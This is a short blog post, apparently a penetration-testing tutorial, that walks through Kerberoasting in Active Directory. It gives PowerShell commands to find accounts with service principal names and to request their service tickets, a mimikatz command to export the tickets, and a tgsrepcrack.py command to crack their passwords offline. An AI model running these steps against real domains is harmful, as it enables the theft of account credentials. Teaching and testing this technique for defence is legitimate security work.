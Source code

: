 ```yaml
---
layout: post
title: Kerberoasting Active Directory Accounts
date: 2022-07-09 13:32:20 +0300
description: Kerberoasting Active Directory Accounts
img: Password.png
fig-caption: # Add figcaption (optional)
tags: [Productivity, Workflow] # add tag
---
```

## Identifying User Objects Vulnerable to Kerberoasting
<p>The below PowerShell command identifies user objects that have a Service Principal Name (SPN). Any user object with a SPN is vulnerable to kerberoasting. The below command requires the Active Directory PowerShell module.</P> 

~~~powershell
Get-ADUser -filter {(ServicePrincipalName -like "*") -and (Enabled -eq $true)} -Properties ServicePrincipalName, PasswordLastSet | Select Name, ServicePrincipalName, PasswordLastSet
~~~

<p>After identifying user objects configured with a SPN, the below commands can be entered into PowerShell to retrieve the service ticket for the user object and store it in memory. The service ticket contains the encrypted password for the user object. If the user object is configured with a weak password, it may be possible to crack it and reveal the clear text password.</p>

~~~powershell
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "InsertSPNNameHere"
~~~

<p>After retrieving the service ticket into memory. A tool such as <a href="https://github.com/gentilkiwi/mimikatz" title="mimikatz">mimiktaz</a> can be used to retrive the service ticket from memory. The below mimikatz command retrieves service tickes from memory and saves it as a kirbi file.</p>

~~~cmd
mimikatz # kerberos::list /export
~~~

<p>The kirbi file can now be taken offline and cracked to reveal the clear text password. The <a href="https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py" title="tgsrepcrack.py">tgsrepcrack Python script</a> and a wordlist can be used to crack the clear text password. Below is the required syntax:</p>

~~~bash
python3 tgsrepcrack.py dictionaryfile .kirbifile
~~~

<p>The following screenshot shows a service ticket being successfully cracked to reveal the clear text password</p>

![crackedspnexample]({{site.baseurl}}/assets/img/crackspn.png)
